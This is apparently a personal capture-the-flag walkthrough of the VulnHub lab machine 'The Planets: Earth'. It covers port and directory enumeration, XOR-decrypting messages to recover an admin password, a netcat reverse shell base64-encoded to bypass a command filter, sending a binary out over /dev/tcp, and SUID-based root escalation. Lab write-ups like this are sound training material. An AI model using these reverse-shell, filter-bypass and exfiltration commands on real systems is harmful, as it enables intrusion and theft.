






#Earth #ThePlanets #Planets 

- **Name**: The Planets: Earth
- **Date release**: 2 Nov 2021
- **Author**: [SirFlash](https://www.vulnhub.com/author/sirflash,731/)
- **Series**: [The Planets](https://www.vulnhub.com/series/the-planets,362/)

### Description

Difficulty: Easy

Earth is an easy box though you will likely find it more challenging than "Mercury" in this series and on the harder side of easy, depending on your experience. There are two flags on the box: a user and root flag which include an md5 hash. This has been tested on VirtualBox so may not work correctly on VMware. Any questions/issues or feedback please email me at: SirFlash at protonmail.com, though it may take a while for me to get back to you.

### File Information

- **Filename**: Earth.ova
- **File size**: 2.0 GB
- **MD5**: 7577F9CB54D024FD2283C998BCC8C173
- **SHA1**: 6476ACC056C32E09377B5403126FB0B34DBEA0A7

### Virtual Machine

- **Format**: Virtual Machine (Virtualbox - OVA)
- **Operating System**: Linux
### Networking

- **DHCP service**: Enabled
- **IP address**: Automatically assign


---
---





---

# 07-07-2024

- IP Adresse
	- 192.168.56.114
- Porte
	- 22/tcp    ssh
	- 80/tcp   http
	- 443/tcp  https
- DNS
	- earth.local
	- terratest.earth.local
- gobuster





```sh
#Enumeration 
sudo netdisover -i eth1

 4 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 240                                                                         
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.56.100  08:00:27:61:c3:f0      2     120  PCS Systemtechnik GmbH
 192.168.56.113  0a:00:27:00:00:13      1      60  Unknown vendor                               192.168.56.114  08:00:27:e9:51:e8      1      60  PCS Systemtechnik GmbH 

# nmap on .114
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sC -v -T4 192.168.56.114
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-07 20:12 CEST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 20:12
Completed NSE at 20:12, 0.00s elapsed
Initiating NSE at 20:12
Completed NSE at 20:12, 0.00s elapsed
Initiating NSE at 20:12
Completed NSE at 20:12, 0.00s elapsed
Initiating ARP Ping Scan at 20:12
Scanning 192.168.56.114 [1 port]
Completed ARP Ping Scan at 20:12, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:12
Completed Parallel DNS resolution of 1 host. at 20:12, 13.01s elapsed
Initiating SYN Stealth Scan at 20:12
Scanning 192.168.56.114 [1000 ports]
Discovered open port 80/tcp on 192.168.56.114
Discovered open port 443/tcp on 192.168.56.114
Discovered open port 22/tcp on 192.168.56.114
Completed SYN Stealth Scan at 20:13, 5.51s elapsed (1000 total ports)
Initiating Service scan at 20:13
Scanning 3 services on 192.168.56.114
Completed Service scan at 20:13, 12.53s elapsed (3 services on 1 host)
NSE: Script scanning 192.168.56.114.
Initiating NSE at 20:13
Completed NSE at 20:13, 7.82s elapsed
Initiating NSE at 20:13
Completed NSE at 20:13, 1.46s elapsed
Initiating NSE at 20:13
Completed NSE at 20:13, 0.00s elapsed
Nmap scan report for 192.168.56.114
Host is up (0.0041s latency).
Not shown: 986 filtered tcp ports (no-response), 11 filtered tcp ports (admin-prohibited)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey: 
|   256 5b:2c:3f:dc:8b:76:e9:21:7b:d0:56:24:df:be:e9:a8 (ECDSA)
|_  256 b0:3c:72:3b:72:21:26:ce:3a:84:e8:41:ec:c8:f8:41 (ED25519)
80/tcp  open  http     Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
|_http-title: Bad Request (400)
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
443/tcp open  ssl/http Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=earth.local/stateOrProvinceName=Space
| Subject Alternative Name: DNS:earth.local, DNS:terratest.earth.local
| Issuer: commonName=earth.local/stateOrProvinceName=Space
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-10-12T23:26:31
| Not valid after:  2031-10-10T23:26:31
| MD5:   4efa:65d2:1a9e:0718:4b54:41da:3712:f187
|_SHA-1: 04db:5b29:a33f:8076:f16b:8a1b:581d:6988:db25:7651
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| tls-alpn: 
|_  http/1.1
MAC Address: 08:00:27:E9:51:E8 (Oracle VirtualBox virtual NIC)

NSE: Script Post-scanning.
Initiating NSE at 20:13
Completed NSE at 20:13, 0.00s elapsed
Initiating NSE at 20:13
Completed NSE at 20:13, 0.00s elapsed
Initiating NSE at 20:13
Completed NSE at 20:13, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.54 seconds
           Raw packets sent: 1990 (87.544KB) | Rcvd: 15 (952B)


# Open File Editor
┌──(kali㉿kali)-[~]
└─$ sudo nano /etc/hosts

127.0.0.1       localhost
127.0.1.1       kali.kali       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
# Add IP of target and the two DNS inside etc/hosts
192.168.56.114 earth.local terratest.earth.local

```


## URL - earth.local
#URL #EarthSecureMessagingService


```sh

Previous Messages:

- 09041d1a040b0e2c04004a55
- 37090b59030f11060b0a1b4e0000000000004312170a1b0b0e4107174f1a0b044e0a000202134e0a161d17040359061d43370f15030b10414e340e1c0a0f0b0b061d430e0059220f11124059261ae281ba124e14001c06411a110e00435542495f5e430a0715000306150b0b1c4e4b5242495f5e430c07150a1d4a410216010943e281b54e1c0101160606591b0143121a0b0a1a00094e1f1d010e412d180307050e1c17060f43150159210b144137161d054d41270d4f0710410010010b431507140a1d43001d5903010d064e18010a4307010c1d4e1708031c1c4e02124e1d0a0b13410f0a4f2b02131a11e281b61d43261c18010a43220f1716010d40
- 3714171e0b0a550a1859101d064b160a191a4b0908140d0e0d441c0d4b1611074318160814114b0a1d06170e1444010b0a0d441c104b150106104b1d011b100e59101d0205591314170e0b4a552a1f59071a16071d44130f041810550a05590555010a0d0c011609590d13430a171d170c0f0044160c1e150055011e100811430a59061417030d1117430910035506051611120b45
- 2402111b1a0705070a41000a431a000a0e0a0f04104601164d050f070c0f15540d1018000000000c0c06410f0901420e105c0d074d04181a01041c170d4f4c2c0c13000d430e0e1c0a0006410b420d074d55404645031b18040a03074d181104111b410f000a4c41335d1c1d040f4e070d04521201111f1d4d031d090f010e00471c07001647481a0b412b1217151a531b4304001e151b171a4441020e030741054418100c130b1745081c541c0b0949020211040d1b410f090142030153091b4d150153040714110b174c2c0c13000d441b410f13080d12145c0d0708410f1d014101011a050d0a084d540906090507090242150b141c1d08411e010a0d1b120d110d1d040e1a450c0e410f090407130b5601164d00001749411e151c061e454d0011170c0a080d470a1006055a010600124053360e1f1148040906010e130c00090d4e02130b05015a0b104d0800170c0213000d104c1d050000450f01070b47080318445c090308410f010c12171a48021f49080006091a48001d47514c50445601190108011d451817151a104c080a0e5a
```


### Gobuster - earth.local

```sh
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://earth.local -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://earth.local
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> /admin/]
/cgi-bin/             (Status: 403) [Size: 199]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================

```


### earth.local/admin


### terratest.earth.local



#### gobuster - terratest.earth.local

```sh
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u https://terratest.earth.local -k -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://terratest.earth.local
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 199]
/.htaccess            (Status: 403) [Size: 199]
/.htpasswd            (Status: 403) [Size: 199]
/cgi-bin/             (Status: 403) [Size: 199]
Progress: 1031 / 4615 (22.34%)[ERROR] Get "https://terratest.earth.local/configs": dial tcp 192.168.56.114:443: i/o timeout (Client.Timeout exceeded while awaiting headers)
Progress: 1040 / 4615 (22.54%)[ERROR] Get "https://terratest.earth.local/contato": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "https://terratest.earth.local/ContactUs": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/index.html           (Status: 200) [Size: 26]
/robots.txt           (Status: 200) [Size: 521]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================

```

### robots.txt

```txt
User-Agent: *
Disallow: /*.asp
Disallow: /*.aspx
Disallow: /*.bat
Disallow: /*.c
Disallow: /*.cfm
Disallow: /*.cgi
Disallow: /*.com
Disallow: /*.dll
Disallow: /*.exe
Disallow: /*.htm
Disallow: /*.html
Disallow: /*.inc
Disallow: /*.jhtml
Disallow: /*.jsa
Disallow: /*.json
Disallow: /*.jsp
Disallow: /*.log
Disallow: /*.mdb
Disallow: /*.nsf
Disallow: /*.php
Disallow: /*.phtml
Disallow: /*.pl
Disallow: /*.reg
Disallow: /*.sh
Disallow: /*.shtml
Disallow: /*.sql
Disallow: /*.txt
Disallow: /*.xml
Disallow: /testingnotes.*
```


### testingnotes.txt

```txt
Testing secure messaging system notes:
*Using XOR encryption as the algorithm, should be safe as used in RSA.
*Earth has confirmed they have received our sent messages.
*testdata.txt was used to test encryption.
*terra used as username for admin portal.
Todo:
*How do we send our monthly keys to Earth securely? Or should we change keys weekly?
*Need to test different key lengths to protect against bruteforce. How long should the key be?
*Need to improve the interface of the messaging interface and the admin panel, it's currently very basic.
```

### testdata.txt

```txt
According to radiometric dating estimation and other evidence, Earth formed over 4.5 billion years ago. Within the first billion years of Earth's history, life appeared in the oceans and began to affect Earth's atmosphere and surface, leading to the proliferation of anaerobic and, later, aerobic organisms. Some geological evidence indicates that life may have arisen as early as 4.1 billion years ago.
```


---
---


#CyberChef #systemctl #SSH #sshDOTservice

- CyberChef
	- Somehow [this page](https://gchq.github.io/CyberChef/)  will not work on Kali Linux, Eternal Loading Screen??
	- Move zip-file with SSH
		- ``sudo systemctl start|stop|restart|reload|status ssh.service``
- Decrypt messages with XOR
	- From Hex
	- key is the content of testdata.txt (use UTF8 (Unicode Transformation Format - 8-bit))




``earthclimatechangebad4humansearthclimatechangebad4humans``


## Foothold
### Login


- Username: terra
- Password: earthclimatechangebad4humans




- CLI command
	- whoami
		- apache
	- ls
		- `bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var`
	- ls /var
		- `account adm cache crash db earth_web empty ftp games kerberos lib local lock log mail nis opt preserve run spool tmp www yp`
	- ls /var/earth_web
		- `db.sqlite3 earth_web manage.py secure_message user_flag.txt`
	- cat /var/earth_web/user_flag.txt
		- `[user_flag_3353b67d6437f07ba7d34afd7d2fc27d]`
	
	- nc -e /bin/bash 192.168.56.52 4444
		- On Kali before you hit Enter `nc -lvnp 4444`
			- ❌ Remote connections are forbidden. ❌
		
- Try again, bypass by converting to decimal notation or encode to base64 format
	- echo 'nc -e /bin/bash 192.168.56.52 4444' | base64
		- bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNTYuNTIgNDQ0NAo=
	
	- echo 'bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNTYuNTIgNDQ0NAo=' | base64 -d | bash



#Python 
```
python -c 'import pty;pty.spawn("/bin/bash")'
bash-5.1$ whoami
whoami
apache
bash-5.1$ ls      
ls
bin   dev  home  lib64  mnt  proc  run   srv  tmp  var
boot  etc  lib   media  opt  root  sbin  sys  usr

```


## Privilege Escalation


```bash
bash-5.1$ find / -perm -u=s 2>/dev/null
find / -perm -u=s 2>/dev/null
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/at
/usr/bin/sudo
/usr/bin/reset_root
/usr/sbin/grub2-set-bootflag
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
```

### /usr/bin/reset_root

```bash
#Check File
bash-5.1$ file /usr/bin/reset_root
/usr/bin/reset_root: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=4851fddf6958d92a893f3d8042d04270d8d31c23, for GNU/Linux 3.2.0, not stripped

# Try run the script
bash-5.1$ reset_root
reset_root
CHECKING IF RESET TRIGGERS PRESENT...
RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.

# Split a new terminal vertically
# nc -lvnp 3333 > reset_root

# Send the file from Earth
bash-5.1$ cat /usr/bin/reset_root >/dev/tcp/192.168.56.52/3333


#Kali Linux
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 3333 > reset_root
listening on [any] 3333 ...
connect to [192.168.56.52] from (UNKNOWN) [192.168.56.114] 56246
                                                                              

# Just in case, check filesize is 24KB
┌──(kali㉿kali)-[~]
└─$ stat reset_root              
  File: reset_root
  Size: 24552           Blocks: 48         IO Block: 4096   regular file
Device: 8,1     Inode: 1976956     Links: 1
Access: (0755/-rwxr-xr-x)  Uid: ( 1000/    kali)   Gid: ( 1000/    kali)
Access: 2024-07-14 16:15:14.120392994 +0200
Modify: 2024-07-14 16:14:54.314494986 +0200
Change: 2024-07-14 16:14:54.314494986 +0200
 Birth: 2024-07-14 15:21:08.218934932 +0200
                                                                              
┌──(kali㉿kali)-[~]
└─$ ls -lh reset_root 
-rwxr-xr-x 1 kali kali 24K Jul 14 16:14 reset_root

#
┌──(kali㉿kali)-[~]
└─$ ltrace ./reset_root       
puts("CHECKING IF RESET TRIGGERS PRESE"...CHECKING IF RESET TRIGGERS PRESENT...
)    = 38
access("/dev/shm/kHgTFI5G", 0)                 = -1
access("/dev/shm/Zw7bV9U5", 0)                 = -1
access("/tmp/kcM0Wewe", 0)                     = -1
puts("RESET FAILED, ALL TRIGGERS ARE N"...RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
)    = 44
+++ exited (status 0) +++

# Create those missing files, at the target machine
bash-5.1$ touch /dev/shm/kHgTFI5G                                   
touch /dev/shm/kHgTFI5G                                             
bash-5.1$ touch /dev/shm/Zw7bV9U5                                         
touch /dev/shm/Zw7bV9U5                                                   
bash-5.1$ touch /tmp/kcM0Wewe                                             
touch /tmp/kcM0Wewe 


#3DCube Run the script
bash-5.1$ reset_root
reset_root
CHECKING IF RESET TRIGGERS PRESENT...
RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth
subash-5.1  

# Change user to root
bash-5.1$ su root
su root
Password: Earth

[root@earth /]# ls
ls
bin   dev  home  lib64  mnt  proc  run   srv  tmp  var
boot  etc  lib   media  opt  root  sbin  sys  usr
[root@earth /]# cd earth 
cd earth
bash: cd: earth: No such file or directory
[root@earth /]# ls
ls
bin   dev  home  lib64  mnt  proc  run   srv  tmp  var
boot  etc  lib   media  opt  root  sbin  sys  usr
[root@earth /]# cd home
cd home
[root@earth home]# ls  
ls
earth
[root@earth home]# cd earth
cd earth
[root@earth earth]# ls
ls
[root@earth earth]# ls -a
ls -a
.   .bash_history  .bash_profile  .cache    .local
..  .bash_logout   .bashrc        .lesshst  .vimrc
[root@earth earth]# cd..
cd..
bash: cd..: command not found
[root@earth earth]# cd ..
cd ..
[root@earth home]# cd earth
cd earth
[root@earth earth]# ls
ls
[root@earth earth]# cd /root
cd /root
[root@earth ~]# ls
ls
anaconda-ks.cfg  root_flag.txt
[root@earth ~]# ls -a
ls -a
.   .bash_history  .bash_profile  .cache  .lesshst  .viminfo  anaconda-ks.cfg
..  .bash_logout   .bashrc        .cshrc  .tcshrc   .vimrc    root_flag.txt

# 🏁🚩🏁
[root@earth ~]# cat root_flag.txt
cat root_flag.txt

              _-o#&&*''''?d:>b\_
          _o/"`''  '',, dMF9MMMMMHo_
       .o&#'        `"MbHMMMMMMMMMMMHo.
     .o"" '         vodM*$&&HMMMMMMMMMM?.
    ,'              $M&ood,~'`(&##MMMMMMH\
   /               ,MMMMMMM#b?#bobMMMMHMMML
  &              ?MMMMMMMMMMMMMMMMM7MMM$R*Hk
 ?$.            :MMMMMMMMMMMMMMMMMMM/HMMM|`*L
|               |MMMMMMMMMMMMMMMMMMMMbMH'   T,
$H#:            `*MMMMMMMMMMMMMMMMMMMMb#}'  `?
]MMH#             ""*""""*#MMMMMMMMMMMMM'    -
MMMMMb_                   |MMMMMMMMMMMP'     :
HMMMMMMMHo                 `MMMMMMMMMT       .
?MMMMMMMMP                  9MMMMMMMM}       -
-?MMMMMMM                  |MMMMMMMMM?,d-    '
 :|MMMMMM-                 `MMMMMMMT .M|.   :
  .9MMM[                    &MMMMM*' `'    .
   :9MMk                    `MMM#"        -
     &M}                     `          .-
      `&.                             .
        `~,   .                     ./
            . _                  .-
              '`--._,dd###pp=""'

Congratulations on completing Earth!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_b0da9554d29db2117b02aa8b66ec492e]
[root@earth ~]# 

```
